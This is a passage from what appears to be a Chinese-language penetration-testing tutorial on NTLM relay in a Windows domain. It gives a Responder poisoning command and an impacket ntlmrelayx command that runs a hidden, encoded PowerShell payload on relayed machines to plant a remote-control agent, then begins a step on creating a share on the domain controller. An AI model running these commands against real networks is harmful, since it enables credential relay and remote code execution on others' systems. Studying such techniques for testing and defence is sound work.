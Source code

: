 ```plain
Responder -I eht0 -r -d –v
```

[![](assets/1701222524-21c356834d4dc1d8955d2d301efb6233.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144628-db440e0e-8db9-1.png)  
Step 5：之后使用 impacket 中的 ntlmrelayx 执行以下命令，条命令是对中继成功的机器自动执行 powershell 并获取 agent，powershell 脚本放在引号中

```plain
ntlmrelayx.py -t 192.168.188.3 -c 'powershell -noP -sta -w 1 -enc [powershell code]'
```

[![](assets/1701222524-4d65bec0a769caffc961323c5496afcf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144700-ee6c8a24-8db9-1.png)  
Step 6：在域控上创建共享操作
